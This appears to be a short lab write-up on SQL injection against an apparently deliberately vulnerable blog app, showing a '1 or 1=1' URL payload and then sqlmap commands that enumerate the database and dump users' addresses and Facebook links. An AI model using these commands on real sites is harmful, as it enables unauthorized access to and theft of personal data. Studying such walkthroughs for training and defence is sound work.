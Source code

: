 # SQL injection 

## SQLi in PostURL

Looking at the URL value of the Post site it could be vulnerable so I tried entering a payload `1 or 1=1` and the site returned all posts in databases.

![image](https://user-images.githubusercontent.com/63194321/132512881-bafa5801-e011-4d2b-9d93-554ab310152b.png)

### Solution

Because we have identified the web has been SQLi, we can use sqlmap to attack to get data.

B1. Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch`

![image](https://user-images.githubusercontent.com/63194321/132514620-a0461970-1a66-4020-b964-d29e07edc21d.png)

B2. Define a list of databases:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -dbs`

![image](https://user-images.githubusercontent.com/63194321/132514974-21d6fb4f-a28f-4a49-98d4-b06a6f421684.png)

B3. Identify the tables in the database:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132515143-ab63af90-e875-482c-a97d-260182a9fd1d.png)

B4.  Define columns in tables:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -columns`

![image](https://user-images.githubusercontent.com/63194321/132515937-1002ad48-2c16-45fe-a06b-573d4ab3373b.png)


B5. Get the address value, facebook link of users.

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -C address,facebook --dump`

![image](https://user-images.githubusercontent.com/63194321/132516371-564f7d1e-d631-412c-a24e-2032a255b77e.png)
